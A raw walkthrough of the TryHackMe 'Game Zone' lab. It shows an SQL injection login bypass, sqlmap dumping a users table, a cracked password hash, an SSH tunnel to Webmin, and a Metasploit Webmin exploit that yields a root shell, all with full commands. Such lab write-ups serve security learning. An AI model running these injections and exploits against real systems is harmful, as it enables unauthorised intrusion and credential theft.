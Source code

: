 [<- home](/)

# Game Zone [TryHackMe]

<sub>_This is a raw write-up. It accounts for every step taken throughout the challenge, whether or not it was successful. So, expect a lot of rabbitholes and frustration. At the time of writing this, I don’t even know if I’ve solved the challenge myself. You might see a flag somewhere titled **<sup>Assisted by [write-up link]</sup>** which means I used someone else’s write-up to complete the challenge. Being a responsible learner, I’m trying my best to accept as little help as possible and only when I’m out of ideas._</sub>

## _Manual Exploitation_

Let’s define the `targ3t` variable to reuse later:

```
targ3t=10.10.244.249
```

Let’s browse the website:

```
firefox $targ3t
```

- __What is the name of the large cartoon avatar holding a sniper on the forum?__

TinEye reverse image search suggests it’s __agent 47__.

Following the walkthrough, let’s input the following string in the `username` field and leave `password` field blank to log in:

```
' OR 1=1 -- -
```

- __When you’ve logged in, what page do you get redirected to?__

__portal.php__

Next we need to start **Burp Suite** and intercept the game review search request, save it to a file `request.txt`:

```
POST /portal.php HTTP/1.1
Host: 10.10.13.72
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:135.0) Gecko/20100101 Firefox/135.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded
Content-Length: 15
Origin: http://10.10.13.72
DNT: 1
Connection: keep-alive
Referer: http://10.10.13.72/portal.php
Cookie: PHPSESSID=62ge9ggqcutbuohs03dtcsr5s4
Upgrade-Insecure-Requests: 1
Sec-GPC: 1
Priority: u=0, i

searchitem=test
```

Then we need to run:

```
sqlmap -r request.txt --current-db
```

The current database name is `db`, let's enumerate it:

```
sqlmap -r request.txt -D db --tables
```

Two tables are available: `post` and `users`. Let's enumerate `users`:

```
sqlmap -r request.txt -D db -T users --dump
```

- __In the users table, what is the hashed password?__
`ab5db915fc9cea6c78df88106c6500c57f2b52901ca6c0c6218f04122c3efd14`

- __What was the username associated with the hashed password?__
`agent47`

- __What was the other table name?__
`post`

Let's crack this hash with __John The Ripper__:

```
echo "ab5db915fc9cea6c78df88106c6500c57f2b52901ca6c0c6218f04122c3efd14" > hash.txt
john hash.txt --wordlist=/usr/share/wordlists/rockyou.txt --format=Raw-SHA256
```

- __What is the de-hashed password?__
`videogamer124`

Now let's try to ssh into the machine:

```
ssh agent47@$targ3t
```

- __What is the user flag?__
`[REDACTED]`

Let's move on to exploiting services with reverse SSH tunnels. We need to use `ss` to list sockets running on a host:

```
ss -tulpn
```

- __How many TCP sockets are running?__
__5__

A service running on port `10000` is blocked by a firewall, but we can expose it to our machine using an SSH Tunnel:

```
ssh -L 10000:localhost:10000 agent47@$targ3t
firefox localhost:10000
```

- __What is the name of the exposed CMS?__
__Webmin__

- __What is the CMS version?__
`1.580`

Let's start `msfconsole` for privilege escalation now:

```
msfconsole
search type:exploit webming
```

I'll use this one: `unix/webapp/webmin_show_cgi_exec`:

```
use 0
show options
```

It needs a number of options to be set:

```
set LHOST tun0
set USERNAME agent47
set PASSWORD videogamer124
set RHOSTS localhost
set SSL false
run
```

This returns a root shell in the background, let's foreground it:

```
sessions -i 2
```

Let's go to the root's home directory and see the flag:

```
cd /root
ls
cat root.txt
```

And there's our flag!
